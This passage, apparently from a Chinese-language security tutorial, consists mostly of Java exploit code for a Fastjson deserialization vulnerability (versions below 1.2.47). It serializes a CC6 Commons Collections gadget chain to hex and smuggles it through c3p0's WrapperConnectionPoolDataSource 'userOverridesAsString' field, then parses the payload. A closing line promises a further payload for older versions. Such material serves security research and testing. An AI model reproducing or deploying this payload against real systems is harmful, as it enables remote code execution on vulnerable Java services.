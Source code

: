 ```
    {  
        char out;  
        if (h <= 9) out = (char) (h + 0x30);  
        else out = (char) (h + 0x37);  
        //System.err.println(h + ": " + out);  
 return out;  
    }  
  
    //将类序列化为字节数组  
 public static byte[] tobyteArray(Object o) throws IOException {  
        ByteArrayOutputStream bao = new ByteArrayOutputStream();  
        ObjectOutputStream oos = new ObjectOutputStream(bao);  
        oos.writeObject(o);  
        return bao.toByteArray();  
    }  
  
    //字节数组转十六进制  
 public static String toHexAscii(byte[] bytes)  
    {  
        int len = bytes.length;  
        StringWriter sw = new StringWriter(len * 2);  
        for (int i = 0; i < len; ++i)  
            addHexAscii(bytes[i], sw);  
        return sw.toString();  
    }  
  
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, PropertyVetoException {  
        String hex = toHexAscii(tobyteArray(CC6()));  
        System.out.println(hex);  
  
        //Fastjson<1.2.47  
 String payload = "{" +  
                "\"1\":{" +  
                "\"@type\":\"java.lang.Class\"," +  
                "\"val\":\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\"" +  
                "}," +  
                "\"2\":{" +  
                "\"@type\":\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\"," +  
                "\"userOverridesAsString\":\"HexAsciiSerializedMap:"+ hex + ";\"," +  
                "}" +  
                "}";  
        JSON.parse(payload);  
  
  
    }  
}
```

在低版本 Fastjson 的情况下，实际上也可以使用下面的 Payload
